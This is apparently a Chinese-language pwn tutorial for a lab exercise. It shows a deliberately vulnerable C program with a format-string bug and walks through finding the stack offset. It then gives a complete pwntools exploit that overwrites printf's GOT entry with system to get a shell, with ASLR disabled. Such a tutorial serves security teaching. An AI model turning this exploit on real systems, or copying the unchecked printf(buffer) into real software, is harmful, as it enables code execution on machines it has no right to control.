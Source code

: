 ```yaml
---
title: '利用 GOT Overwrite'
date: '2023-08-28'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '使用格式化字符串漏洞覆盖 GOT 表 get shell'
authors: ['default']
---
```


## 0x01 源码

LINK

这可能是 GOT Overwrite 题中最简单的一个了。

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[300];

  while(1) {
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    puts("");
  }
}

int main() {
  vuln();

  return 0;
}
```

一个简单的无限循环接收用户的输入，并用 `printf` 将其输出。这里不存在缓冲区溢出，
只有格式化字符串漏洞。

现在假设关闭了 ASLR，可以先自己试一试利用 GOT Overwrite 漏洞进行覆写 :)

## 0x02 漏洞利用

先设置好基本框架：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()
```

为了利用 `%n` 覆盖 GOT 表，我们需要找到格式化字符串读取到我们输入的缓冲区开始的偏移量。

```
$ ./got_overwrite-32
%p %p %p %p %p %p
0x12c 0xf7e445c0 0x8049191 0x40 0x25207025 0x70252070
```

可以确定是第五个位置。接下来获取该位置的地址：

```
$ ./got_overwrite-32
%5$p
0x70243525
```

完善 exp：

```python
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

这样就覆写成功了。如果缓冲区受到限制，你可以发送 `/bin/sh` 获得 shell 并运行更多命令。

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

## 0x03 64-bit

老样子 :)

LINK

## 0x04 ASLR 版本

如果你想要额外的挑战，这里请启用 ASLR 并尝试解下面的题目。

LINK

